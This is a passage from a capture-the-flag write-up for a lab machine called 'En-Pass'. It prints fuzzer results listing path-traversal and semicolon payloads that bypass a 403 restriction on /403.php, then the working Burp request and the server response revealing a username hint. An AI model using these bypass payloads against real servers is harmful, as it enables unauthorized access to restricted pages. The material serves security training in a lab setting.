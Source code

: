 ~~~
Response Code: 200  Length: 2563  Payload: /403.php;/../..//
Response Code: 200  Length: 2563  Payload: /403.php;/.././../
Response Code: 200  Length: 2563  Payload: /403.php;/../.;/../
Response Code: 200  Length: 2563  Payload: /403.php;/..//
Response Code: 400  Length: 306 Payload: /403.php;/..//%2e%2e/
Response Code: 200  Length: 2563  Payload: /403.php;/..//../
Response Code: 200  Length: 2563  Payload: /403.php;/..///
Response Code: 200  Length: 2563  Payload: /403.php;/../;/../
Response Code: 200  Length: 2563  Payload: /403.php;/..
Response Code: 200  Length: 2563  Payload: /403.php;//../../
Response Code: 400  Length: 306 Payload: /;/..//%2e%2e/403.php
Response Code: 200  Length: 2563  Payload: /
Response Code: 200  Length: 2563  Payload: /#403.php
Response Code: 200  Length: 2563  Payload: /
Response Code: 200  Length: 2563  Payload: /
Response Code: 200  Length: 2563  Payload: /
Response Code: 200  Length: 2563  Payload: /
Response code: 200   Response length: 0           Sent OPTIONS method. 

Response length was 0 so probably NOT worth checking out....

Response Headers: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 0
~~~

Cycling in BurpSuite through the requests with a 200 HTTP code, we eventually find the good one:

~~~
GET /403.php/..;/ HTTP/1.1
Host: 10.10.67.150:8001
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close

~~~

Which generated the below response:

~~~
HTTP/1.1 200 OK
Date: Wed, 12 May 2021 17:07:56 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 917
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>En-Pass</title>

[REDACTED]

<h3>Glad to see you here.Congo, you bypassed it. 'imsau' is waiting for you somewhere.</h3>
</body>
</html>   
~~~
